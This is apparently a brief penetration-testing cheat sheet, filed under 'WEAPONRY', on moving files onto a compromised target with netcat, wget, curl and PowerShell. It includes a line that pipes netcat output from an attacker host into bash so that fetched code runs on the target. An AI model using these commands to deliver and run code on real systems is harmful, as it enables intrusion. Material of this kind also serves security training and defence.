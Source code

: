 ```yaml
---
title: File Transfer
date: 2020-11-26 01:31:38
category: WEAPONRY
---
```


# File Transfer Cheat Sheet

## 0x01 通用


### NC
``` bash
# 本地
cat ${file}|nc -lnvp port
# 目标机
nc ip port >> ${file}
# 执行 bash 的话
nc ip port | bash
```

## 0x02 Linux

### Wget
``` bash
wget http://domain/file
```

### Curl
``` bash
curl http://domain/file -o file
```


## 0x03 Windows

### Wget
``` bash
wget -Uri http://domain/file -OutFile file
```

### Powershell
``` bash
powershell ...
```
